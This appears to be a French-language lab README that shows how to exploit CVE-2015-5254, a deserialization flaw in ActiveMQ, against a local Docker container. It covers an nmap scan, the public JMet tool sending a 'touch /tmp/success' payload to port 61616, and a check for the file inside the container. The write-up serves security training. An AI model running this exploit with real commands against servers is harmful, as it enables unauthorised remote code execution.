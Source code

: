 # Exploitation de CVE-2015-5254

Ce document explique les étapes nécessaires pour exploiter la vulnérabilité **CVE-2015-5254** sur un serveur ActiveMQ. Il inclut la configuration de l'environnement, l'exploitation de la faille et la vérification des résultats.

---

## **1. Configuration de l'environnement ActiveMQ**

### Lancer ActiveMQ avec Docker
1. Positionnez-vous dans le dossier `activemq_2015`.
2. Lancez ActiveMQ en arrière-plan avec la commande :
   ```bash
   docker compose up -d
   ```
3. Accédez à l'interface d'administration ActiveMQ dans un navigateur :
   ```
   http://localhost:8161/admin/
   ```

   Vous devriez voir la version d'ActiveMQ (exemple : 5.11.1).

![Interface ActiveMQ](https://github.com/user-attachments/assets/fd58667a-cb77-4458-8bd6-a0f323f03e1c)

### Vérifier la version d'ActiveMQ
- La version peut également être confirmée dans le fichier `docker-compose.yml`.

![Version dans docker-compose.yml](https://github.com/user-attachments/assets/125fbdbd-77fb-46a0-8c8a-acebcf745bd7)

---

## **2. Identifier les services actifs**

Utilisez `nmap` pour scanner le réseau et vérifier que le port 61616 est ouvert :
```bash
nmap -p- 192.168.1.145
```

![Résultats de nmap](https://github.com/user-attachments/assets/f3f1a525-1337-4b49-8ab3-7ec538eec2e2)

---

## **3. Préparer la charge utile**

1. Créez un dossier appelé `external` pour y stocker le fichier malveillant :
   ```bash
   mkdir external
   ```

   ![Création du dossier external](https://github.com/user-attachments/assets/30b6afcf-3642-4be8-9c88-c4ad88f9852a)

2. Téléchargez l'outil **jmet-0.1.0-all.jar** depuis le lien suivant :
   [Télécharger JMet](https://github.com/matthiaskaiser/jmet/releases).
3. Placez le fichier téléchargé dans le dossier `activemq_2015`.

---

## **4. Exploiter la vulnérabilité**

1. Exécutez la commande suivante pour envoyer une charge utile à ActiveMQ :
   ```bash
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 192.168.1.145 61616
   ```

   - Cette commande crée un fichier nommé `success` dans le répertoire `/tmp` du conteneur ActiveMQ.

![Envoi de la charge](https://github.com/user-attachments/assets/1cf96446-9765-4ba1-ba47-430dd2d12fdd)

2. Vérifiez l’injection en consultant l’onglet **Queues** de l’interface d’administration ActiveMQ.
   - Vous devriez voir le message injecté dans la file d’attente.

![Message injecté](https://github.com/user-attachments/assets/2f1d85a9-0f23-4b35-8fd2-8c11541d8120)

---

## **5. Vérification du succès de l’injection**

1. Listez les conteneurs en cours d'exécution pour obtenir l'ID du conteneur ActiveMQ :
   ```bash
   docker ps -a
   ```

   ![Liste des conteneurs](https://github.com/user-attachments/assets/a31e82c3-a845-4af4-ac48-abe4ee5e2024)

2. Accédez au conteneur ActiveMQ avec la commande suivante :
   ```bash
   docker exec -it <ID_du_conteneur> /bin/bash
   ```
   - Remplacez `<ID_du_conteneur>` par l'ID récupéré précédemment.

![Accès au conteneur](https://github.com/user-attachments/assets/a1449b45-b334-47a7-83fb-da2ba883e82b)

3. Rendez-vous dans le répertoire `/tmp` et vérifiez la présence du fichier `success` :
   ```bash
   ls /tmp
   ```

![Vérification du fichier success](https://github.com/user-attachments/assets/65d0490b-26b4-4f6e-aabb-4f77f0901cb0)

   - La présence du fichier indique que la commande a été exécutée avec succès.

---

